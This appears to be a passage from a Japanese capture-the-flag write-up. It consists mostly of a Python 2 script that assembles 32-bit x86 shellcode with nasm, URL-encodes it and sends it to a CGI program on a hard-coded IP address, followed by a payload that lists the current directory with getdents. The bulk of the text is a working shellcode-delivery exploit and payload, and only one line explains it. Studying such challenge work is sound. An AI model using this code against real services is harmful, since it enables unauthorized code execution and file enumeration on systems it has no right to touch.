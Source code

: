 あとはgetdirentsでファイルのリストを取得

    #!/usr/bin/python
    import socket
    import subprocess
    import pack
    import re
     
    def execute(asm, apd):
        fasm = open("/tmp/bin.asm", "w")
        fasm.write(asm)
        fasm.close()
        subprocess.check_call("nasm /tmp/bin.asm", shell=True)
        #s = socket.create_connection(("133.242.20.195", 80))
        s = socket.create_connection(("133.242.18.174", 80))
        bin_ = open("/tmp/bin", "r")
        shellcode = bin_.read() + apd
        if len(shellcode) > 64:
            print "beep"
            print len(shellcode)
        url = "GET /cgi-bin/99.cgi?"
        for ch in shellcode:
            url += ("%%%02x" % ord(ch))
        s.send(url + "\r\n")
        result = ""
        while True:
            a = s.recv(4096)
            result += a
            if len(a) <= 0:
                break
        s.close()
        return result
     
    shellcode_ls = """
    bits 32
    org 0
    lea ebx,[eax+A + 1] ;path
    mov eax,0x5 ;open
    mov ecx, 0x10000 ;O_DIRECTORY
    cs int 0x80
     
    mov ebx, eax
    mov eax, 141 ;getdents
    mov ecx, esp ;buf
    mov edx, 0x1000 ;buf size
    cs int 0x80
     
    lea ecx, [esp+10] ;buf
    mov edx,0x1000 ;size
    mov eax,0x4 ;write
    mov ebx,0x1 ;stdout
    int 0x80
     
    A:
    db ".", 0 ;path
    """
     